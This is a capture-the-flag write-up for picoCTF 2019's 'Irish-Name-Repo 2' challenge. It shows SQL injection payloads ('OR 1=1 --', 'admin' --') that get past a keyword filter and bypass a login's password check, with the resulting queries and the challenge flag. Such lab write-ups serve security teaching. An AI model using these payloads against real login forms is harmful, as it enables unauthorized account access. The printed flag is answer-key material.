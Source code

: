 # Irish-Name-Repo 2

> There is a website running at ``https://2019shell1.picoctf.com/problem/41025/`` ([link](https://2019shell1.picoctf.com/problem/41025/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:41025

> Hints: The password is being filtered.

First things first, we try the same injection we did last time in [Irish-Name-Repo 1](/problems/Irish-Name-Repo_1).
<pre>
username: ' OR 1=1 --
password: something random
SQL query: SELECT * FROM users WHERE name='' OR 1=1 --' AND password='something random'
<h1>SQLi detected.</h1>
</pre>
Darn: It's detecting something in the username that does not pass the check. Quickly, we check if we can run the injection at all by removing the helpful ``OR`` statement.
<pre>
username: ' --
password: something random
SQL query: SELECT * FROM users WHERE name='' --' AND password='something random'
<h1>Login failed.</h1>
</pre>
This is passing the filter, so we can indeed do some injection. Now, running through some [standard injections](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/), we find the idea ``admin' --``, which tries to abuse the fact that our current injection ``' --`` causes the ``password`` check to be completely bypassed:
```sql
SELECT * FROM users WHERE name='' --' AND password='something random'
```
So if the admin's username is ``admin``, the suggested injection ``admin' --`` will return the ``admin`` user without having to check the pesky password.
```sql
SELECT * FROM users WHERE name='admin' --' AND password='something random'
```
Testing this gives the flag.
<pre>
username: admin' --
password: ssomething random
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='ssomething random'
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_83dad972}</p>
</pre>
> ``picoCTF{m0R3_SQL_plz_83dad972}``
